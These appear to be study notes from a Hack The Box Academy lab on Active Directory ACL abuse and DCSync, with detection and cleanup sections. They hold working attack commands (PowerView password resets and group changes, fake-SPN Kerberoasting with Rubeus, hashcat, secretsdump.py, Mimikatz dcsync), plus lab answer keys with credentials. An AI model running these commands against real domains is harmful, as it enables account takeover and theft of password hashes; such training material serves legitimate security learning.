


### Access Control List (ACL) Overview

```
# For security reasons, not all users and computers in an AD environment can access all objects and files. 
# These types of permissions are controlled through Access Control Lists (ACLs). 
# Posing a serious threat to the security posture of the domain, 
# a slight misconfiguration to an ACL can leak permissions to other objects that do not need it.

# The settings themselves in an ACL are called Access Control Entries (ACEs). 
# Each ACE maps back to a user, group, or process (also known as security principals) 
# and defines the rights granted to that principal.
```

```
# There are two types of ACLs:

- Discretionary Access Control List (DACL)
# defines which security principals are granted or denied access to an object. 
# DACLs are made up of ACEs that either allow or deny access. 

- System Access Control Lists (SACL) 
# allow administrators to log access attempts made to secured objects.
```

### Access Control Entries (ACEs)

```
# As stated previously, Access Control Lists (ACLs) contain ACE entries that name a user or group 
# and the level of access they have over a given securable object. 

# There are three main types of ACEs that can be applied to all securable objects in AD:

- Access denied ACE:	
  Used within a DACL to show that a user or group is explicitly denied access to an object

- Access allowed ACE:	
  Used within a DACL to show that a user or group is explicitly granted access to an object

- System audit ACE:
  Used within a SACL to generate audit logs when a user or group attempts to access an object. 
  It records whether access was granted or not and what type of access occurred
```

```
Each ACE is made up of the following four components:

- The security identifier (SID) of the user/group that has access to the object (or principal name graphically)
- A flag denoting the type of ACE (access denied, allowed, or system audit ACE)
- A set of flags that specify whether or not child containers/objects can inherit the given ACE entry from the primary or parent object
- An access mask which is a 32-bit value that defines the rights granted to an object
```

### Why are ACEs Important?

```
# These can be great for us as penetration testers as many organizations are unaware of the ACEs applied 
# to each object or the impact that these can have if applied incorrectly. 
# They cannot be detected by vulnerability scanning tools, and often go unchecked for many years, 
# especially in large and complex environments. 
# During an assessment where the client has taken care of all of the "low hanging fruit" AD flaws/misconfigurations, 
# ACL abuse can be a great way for us to move laterally/vertically and even achieve full domain compromise. 
# Some example Active Directory object security permissions are as follows. 
# These can be enumerated (and visualized) using a tool such as BloodHound, and are all abusable with PowerView, among other tools:

ForceChangePassword abused with Set-DomainUserPassword
Add Members         abused with Add-DomainGroupMember
GenericAll          abused with Set-DomainUserPassword or Add-DomainGroupMember
GenericWrite        abused with Set-DomainObject
WriteOwner          abused with Set-DomainObjectOwner
WriteDACL           abused with Add-DomainObjectACL
AllExtendedRights   abused with Set-DomainUserPassword or Add-DomainGroupMember
Addself             abused with Add-DomainGroupMember
```

```
# Next, we will cover enumerating and leveraging four specific ACEs to highlight the power of ACL attacks:

- ForceChangePassword - gives us the right to reset a user's password without first knowing their password 
  (should be used cautiously and typically best to consult our client before resetting passwords).

- GenericWrite - gives us the right to write to any non-protected attribute on an object. 
  If we have this access over a user, we could assign them an SPN and perform a Kerberoasting attack.
  Finally, if we have this access over a computer object, we could perform a resource-based constrained delegation attack.

- AddSelf - shows security groups that a user can add themselves to.

- GenericAll - this grants us full control over a target object. 
  Again, depending on if this is granted over a user or group, we could modify group membership, 
  force change a password, or perform a targeted Kerberoasting attack. 
  If we have this access over a computer object and the Local Administrator Password Solution (LAPS) is in use in the environment, 
  we can read the LAPS password and gain local admin access to the machine which may aid us in lateral movement 
  or privilege escalation in the domain if we can obtain privileged controls or gain some sort of privileged access.
```

```
# ACE attacks graphic:
```



```
# Misc

# We will run into many other interesting ACEs (privileges) in Active Directory from time to time. 
# The methodology for enumerating possible ACL attacks using tools such as BloodHound and PowerView and even built-in AD management tools 
# should be adaptable enough to assist us whenever we encounter new privileges in the wild that we may not yet be familiar with. 
# For example, we may import data into BloodHound and see that a user we have control over (or can potentially take over) 
# has the rights to read the password for a Group Managed Service Account (gMSA) through the ReadGMSAPassword edge. 
# In this case, there are tools such as GMSAPasswordReader that we could use, along with other methods, 
# to obtain the password for the service account in question. 
# Other times we may come across extended rights such as Unexpire-Password or Reanimate-Tombstones using PowerView 
# and have to do a bit of research to figure out how to exploit these for our benefit. 
# It's worth familiarizing yourself with all of the BloodHound edges 
# and as many Active Directory Extended Rights as possible as you never know when you may encounter a less common one during an assessment.

# Term attack links below:
```

https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#readgmsapassword
https://github.com/rvazarkar/GMSAPasswordReader
https://learn.microsoft.com/en-us/windows/win32/adschema/r-unexpire-password
https://learn.microsoft.com/en-us/windows/win32/adschema/r-reanimate-tombstones
https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html
https://learn.microsoft.com/en-us/windows/win32/adschema/extended-rights

### ACL Attacks in the Wild

```
# We can use ACL attacks for:

- Lateral movement
- Privilege escalation
- Persistence

Some common attack scenarios may include:

- Abusing forgot password permissions 	
# Help Desk and other IT users are often granted permissions to perform password resets and other privileged tasks. 
# If we can take over an account with these privileges (or an account in a group that confers these privileges on its users), 
# we may be able to perform a password reset for a more privileged account in the domain.

- Abusing group membership management 	
# It's also common to see Help Desk and other staff that have the right to add/remove users from a given group. 
# It is always worth enumerating this further, as sometimes we may be able to add an account 
# that we control into a privileged built-in AD group or a group that grants us some sort of interesting privilege.

- Excessive user rights
# We also commonly see user, computer, and group objects with excessive rights that a client is likely unaware of. 
# This could occur after some sort of software install 
# (Exchange, for example, adds many ACL changes into the environment at install time) 
# or some kind of legacy or accidental configuration that gives a user unintended rights. 
# Sometimes we may take over an account that was given certain rights out of convenience or to solve a nagging problem more quickly.
```

### ACL Enumeration

```
# We can use PowerView to enumerate ACLs, but the task of digging through all of the results will be extremely time-consuming 
# and likely inaccurate. For example, if we run the function Find-InterestingDomainAcl we will receive 
# a massive amount of information back that we would need to dig through to make any sense of:

PS C:\htb> Find-InterestingDomainAcl                    # Using Find-InterestingDomainAcl
```

```
# There is a way to use a tool such as PowerView more effectively -- by performing targeted enumeration starting with a user 
# that we have control over. Let's focus on the user wley, which we obtained after solving the last question 
# in the LLMNR/NBT-NS Poisoning - from Linux section. 
# We first need to get the SID of our target user to search effectively.

PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> $sid = Convert-NameToSid wley

# We can then use the Get-DomainObjectACL function to perform our targeted search.:

PS C:\htb> Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq $sid}

# One important thing to note is that if we search without the flag ResolveGUIDs, we will see results like the above, 
# where the right ExtendedRight does not give us a clear picture of what ACE entry the user wley has over damundsen. 
# This is because the ObjectAceType property is returning a GUID value that is not human readable.

# Note that this command will take a while to run, especially in a large environment. 
# It may take 1-2 minutes to get a result in our lab.
```

https://docs.microsoft.com/en-us/windows/win32/adschema/r-user-force-change-password

```
# We could Google for the GUID value 00299570-246d-11d0-a768-00aa006e0529 
# and uncover page by link above showing that the user has the right to force change the other user's password. 
# Alternatively, we could do a reverse search using PowerShell to map the right name back to the GUID value.

Performing a Reverse Search & Mapping to a GUID Value:

PS C:\htb> $guid= "00299570-246d-11d0-a768-00aa006e0529"

PS C:\htb> Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * |Select Name,DisplayName,DistinguishedName,rightsGuid| ?{$_.rightsGuid -eq $guid} | fl
```

```
# This gave us our answer, but would be highly inefficient during an assessment. 
# PowerView has the ResolveGUIDs flag, which does this very thing for us. 
# Notice how the output changes when we include this flag to show the human-readable format 
# of the ObjectAceType property as User-Force-Change-Password.

Using the -ResolveGUIDs Flag:
PS C:\htb> Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}
```

```
# Why did we walk through this example when we could have just searched using ResolveGUIDs first?

# It is essential that we understand what our tools are doing and have alternative methods in our toolkit 
# in case a tool fails or is blocked. 
# Before moving on, let's take a quick look at how we could do this using the Get-Acl and Get-ADUser cmdlets 
# which we may find available to us on a client system.

# Knowing how to perform this type of search without using a tool such as PowerView is greatly beneficial 
# and could set us apart from our peers. 
# We may be able to use this knowledge to achieve results when a client has us work from one of their systems, 
# and we are restricted down to what tools are readily available 
# on the system without the ability to pull in any of our own.

# This example is not very efficient, and the command can take a long time to run, especially in a large environment. 
# It will take much longer than the equivalent command using PowerView. 

# Creating a List of Domain Users:

PS C:\htb> Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt

# A Useful foreach Loop:

PS C:\htb> foreach($line in [System.IO.File]::ReadLines("C:\Users\htb-student\Desktop\ad_users.txt")) {get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\wley'}}
```

```
# So, to recap, we started with the user wley and now have control over the user damundsen 
# via the User-Force-Change-Password extended right. 
# Let's use Powerview to hunt for where, if anywhere, control over the damundsen account could take us.

# Further Enumeration of Rights Using damundsen

PS C:\htb> $sid2 = Convert-NameToSid damundsen
PS C:\htb> Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid2} -Verbose

# Now we can see that our user damundsen has GenericWrite privileges over the Help Desk Level 1 group. 
# This means, among other things, that we can add any user (or ourselves) to this group 
# and inherit any rights that this group has applied to it.

# Investigating the Help Desk Level 1 Group with Get-DomainGroup:

PS C:\htb> Get-DomainGroup -Identity "Help Desk Level 1" | select memberof

# A quick search shows us that the Help Desk Level 1 group is nested into the Information Technology group, 
# meaning that we can obtain any rights that the Information Technology group grants to its members 
# if we just add ourselves to the Help Desk Level 1 group where our user damundsen has GenericWrite privileges.

# Investigating the Information Technology Group

PS C:\htb> $itgroupsid = Convert-NameToSid "Information Technology"
PS C:\htb> Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $itgroupsid} -Verbose

# Finally, let's see if the adunn user has any type of interesting access that we may be able to leverage to get closer to our goal.
# Looking for Interesting Access:

PS C:\htb> $adunnsid = Convert-NameToSid adunn 
PS C:\htb> Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $adunnsid} -Verbose

# The output above shows that our adunn user has 
# DS-Replication-Get-Changes and 
# DS-Replication-Get-Changes-In-Filtered-Set rights over the domain object. 
# This means that this user can be leveraged to perform a DCSync attack.
```

```
# Bloodhound schema example:
```




### Task Solution 

```
xfreerdp /v:10.129.190.118 /u:htb-student /p:Academy_student_AD!

Import-Module .\PowerView.ps1
$sid = Convert-NameToSid forend
Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq $sid}
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}
Get-DomainObjectACL -Identity "GPO Management" -ResolveGUIDs | ? {$_.SecurityIdentifier -eq $sid}
```

### ACL Abuse Tactics

```
# Based on all prev achievments, wley, damundsen users, DCSync attack, NTLM hashes and week passwords we can do next chain:

- Use the wley user to change the password for the damundsen user

- Authenticate as the damundsen user and leverage GenericWrite rights to add a user that we control 
  to the Help Desk Level 1 group

- Take advantage of nested group membership in the Information Technology group 
  and leverage GenericAll rights to take control of the adunn user
```

```
# So, first, we must authenticate as wley and force change the password of the user damundsen. 
# We can start by opening a PowerShell console and authenticating as the wley user.

# Creating a PSCredential Object:

PS C:\htb> $SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force
PS C:\htb> $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)

# Creating a SecureString Object

PS C:\htb> $damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force

# Finally, we'll use the Set-DomainUserPassword PowerView function to change the user's password. 
# We need to use the -Credential flag with the credential object we created for the wley user. 
# It's best to always specify the -Verbose flag to get feedback on the command completing 
# as expected or as much information about errors as possible. 
# We could do this from a Linux attack host using a tool such as pth-net, which is part of the pth-toolkit.

PS C:\htb> cd C:\Tools\
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose

# Next, we need to perform a similar process to authenticate as the damundsen user and add ourselves to the Help Desk Level 1 group.
# Creating a SecureString Object using damundsen:

PS C:\htb> $SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
PS C:\htb> $Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword) 


# Next, we can use the Add-DomainGroupMember function to add ourselves to the target group. 
# We can first confirm that our user is not a member of the target group. 
# This could also be done from a Linux host using the pth-toolkit.
# Adding damundsen to the Help Desk Level 1 Group:

PS C:\htb> Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select -ExpandProperty Members

PS C:\htb> Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose

# Confirming damundsen was Added to the Group:

PS C:\htb> Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName
```

```
# Since we have GenericAll rights over this account, we can have even more fun and perform a targeted Kerberoasting attack 
# by modifying the account's servicePrincipalName attribute to create a fake SPN that we can then Kerberoast 
# to obtain the TGS ticket and (hopefully) crack the hash offline using Hashcat.
# Creating a Fake SPN:

PS C:\htb> Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose

# If this worked, we should be able to Kerberoast the user using any number of methods 
# and obtain the hash for offline cracking. Let's do this with Rubeus.
```

### Kerberoasting with Rubeus

```
PS C:\htb> .\Rubeus.exe kerberoast /user:adunn /nowrap

# Great! We have successfully obtained the hash. 
# The last step is to attempt to crack the password offline using Hashcat. 
# Once we have the cleartext password, we could now authenticate as the adunn user and perform the DCSync attack.
```

### Cleanup

```
# In terms of cleanup, there are a few things we need to do:

- Remove the fake SPN we created on the adunn user.
- Remove the damundsen user from the Help Desk Level 1 group
- Set the password for the damundsen user back to its original value (if we know it) or have our client set it/alert the user

# This order is important because if we remove the user from the group first, 
# then we won't have the rights to remove the fake SPN.

# First, let's remove the fake SPN from the adunn account.
# Removing the Fake SPN from adunn's Account:

PS C:\htb> Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose

# Next, we'll remove the user from the group using the Remove-DomainGroupMember function.
# Removing damundsen from the Help Desk Level 1 Group:

PS C:\htb> Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose

# We can confirm the user was indeed removed:
# Confirming damundsen was Removed from the Group:

PS C:\htb> Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName |? {$_.MemberName -eq 'damundsen'} -Verbose
```

### Detection and Remediation


```
# A few recommendations around ACLs include:

- Auditing for and removing dangerous ACLs

# Organizations should have regular AD audits performed but also train internal staff to run tools such as
# BloodHound and identify potentially dangerous ACLs that can be removed.

- Monitor group membership

# Visibility into important groups is paramount. 
# All high-impact groups in the domain should be monitored to alert IT staff 
# of changes that could be indicative of an ACL attack chain.

- Audit and monitor for ACL changes

# Enabling the Advanced Security Audit Policy can help in detecting unwanted changes, 
# especially Event ID 5136: A directory service object was modified which would indicate that the domain object was modified, 
# which could be indicative of an ACL attack. 
# If we look at the event log after modifying the ACL of the domain object, we will see some event ID 5136 created:
# If we check out the Details tab, we can see that the pertinent information 
# is written in Security Descriptor Definition Language (SDDL) which is not human readable.

# We can use the ConvertFrom-SddlString cmdlet to convert this to a readable format.
# Converting the SDDL String into a Readable Format:

PS C:\htb> ConvertFrom-SddlString "O:BAG:BAD:AI(D;;DC;;;WD)(OA;CI;CR;ab721a53-1e2f-11d0-9819-00aa0040529b;...

# If we choose to filter on the DiscretionaryAcl property, 
# we can see that the modification was likely giving the mrb3n user GenericWrite privileges over the domain object itself, 
# which could be indicative of an attack attempt.:

PS C:\htb> ConvertFrom-SddlString "O:BAG:BAD:AI(D;;DC;;;WD)(OA;CI;CR;ab721a53-1e2f-11d0-9819-00aa0040529b;...|select -ExpandProperty DiscretionaryAcl
```

### Task solution

```
# RDP to 10.129.190.118 (ACADEMY-EA-MS01) with user "htb-student" and password "Academy_student_AD!" 

xfreerdp /v:10.129.190.118 /u:htb-student /p:Academy_student_AD!

$SecPassword = ConvertTo-SecureString 'transporter@4' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)
$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force 
Import-Module .\PowerView.ps1
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose

$SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword)
Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose
Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName

Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose

\Rubeus.exe kerberoast /user:adunn /nowrap

hashcat -m 13100 NewTGS /usr/share/wordlists/rockyou.txt
```

### DCSync

```
# DCSync is a technique for stealing the Active Directory password database 
# by using the built-in Directory Replication Service Remote Protocol, 
# which is used by Domain Controllers to replicate domain data. 
# This allows an attacker to mimic a Domain Controller to retrieve user NTLM password hashes.

# The crux of the attack is requesting a Domain Controller to replicate passwords via 
# the DS-Replication-Get-Changes-All extended right. 
# This is an extended access control right within AD, which allows for the replication of secret data.
```

```
# Using Get-DomainUser to View adunn's Group Membership

PS C:\htb> Get-DomainUser -Identity adunn  |select samaccountname,objectsid,memberof,useraccountcontrol |f

# Using Get-ObjectAcl to Check adunn's Replication Rights

PS C:\htb> $sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"

PS C:\htb> Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
```

```
# If we had certain rights over the user (such as WriteDacl), 
# we could also add this privilege to a user under our control, 
# execute the DCSync attack, and then remove the privileges to attempt to cover our tracks. 
# DCSync replication can be performed using tools such as Mimikatz, Invoke-DCSync, and Impacket’s secretsdump.py.

# Running the tool as below will write all hashes to files with the prefix inlanefreight_hashes. 
# The -just-dc flag tells the tool to extract NTLM hashes and Kerberos keys from the NTDS file.

# Extracting NTLM Hashes and Kerberos Keys Using secretsdump.py:

secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 

# We can use the -just-dc-ntlm flag if we only want NTLM hashes 
# or specify -just-dc-user <USERNAME> to only extract data for a specific user. 
# Other useful options include -pwd-last-set to see when each account's password was last changed 
# and -history if we want to dump password history, which may be helpful for offline password cracking 
# or as supplemental data on domain password strength metrics for our client. 
# The -user-status is another helpful flag to check and see if a user is disabled. 
# We can dump the NTDS data with this flag and then filter out disabled users 
# when providing our client with password cracking statistics to ensure that data such as:

- Number and % of passwords cracked
- top 10 passwords
- Password length metrics
- Password re-use

# reflect only active user accounts in the domain.

# If we check the files created using the -just-dc flag, 
# we will see that there are three: 
# one containing the NTLM hashes, one containing Kerberos keys, and one that would contain cleartext passwords 
# from the NTDS for any accounts set with reversible encryption enabled.

# Listing Hashes, Kerberos Keys, and Cleartext Passwords:

ls inlanefreight_hashes*
output:
inlanefreight_hashes.ntds  inlanefreight_hashes.ntds.cleartext  inlanefreight_hashes.ntds.kerberos
```

```
# Enumerating Further using Get-ADUser

PS C:\htb> Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl

# Checking for Reversible Encryption Option using Get-DomainUser

PS C:\htb> Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol

# Displaying the Decrypted Password

cat inlanefreight_hashes.ntds.cleartext 
output:
proxyagent:CLEARTEXT:Pr0xy_ILFREIGHT!

# Some clients may do this (reversible encryption) to be able to dump NTDS and perform periodic password strength 
# audits without having to resort to offline password cracking.

# We can perform the attack with Mimikatz as well. 
# Using Mimikatz, we must target a specific user. Here we will target the built-in administrator account. 
# We could also target the krbtgt account and use this to create a Golden Ticket for persistence, 
# but that is outside the scope of this module.
```

```
# Also it is important to note that Mimikatz must be ran in the context of the user who has DCSync privileges. 
# We can utilize runas.exe to accomplish this:

C:\Windows\system32>runas /netonly /user:INLANEFREIGHT\adunn powershell
Enter the password for INLANEFREIGHT\adunn:
Attempting to start powershell as user "INLANEFREIGHT\adunn" ...

# From the newly spawned powershell session, we can perform the attack;
# Performing the Attack with Mimikatz:

PS C:\htb> .\mimikatz.exe
mimikatz # privilege::debug
mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
```

### Task Solution

```
# RDP to 10.129.168.173 (ACADEMY-EA-MS01), 10.129.131.87 (ACADEMY-EA-ATTACK01) with user "htb-student" and password "Academy_student_AD!" 

xfreerdp /v:10.129.168.173 /u:htb-student /p:Academy_student_AD!

runas /netonly /user:INLANEFREIGHT\adunn powershell                                # and pass from prev lab "SyncMaster757"
Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl   # Search for target user (2nd)

cd  ..\..\tools\mimikatz\x64                                                       # go and run mimikatz, pass in the end.
.\mimikatz.exe 
privilege::debug
lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\syncron 

lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\khartsfield        # the same for 2nd user, re-run mimikatz if need
```

-------------------------------------------------------------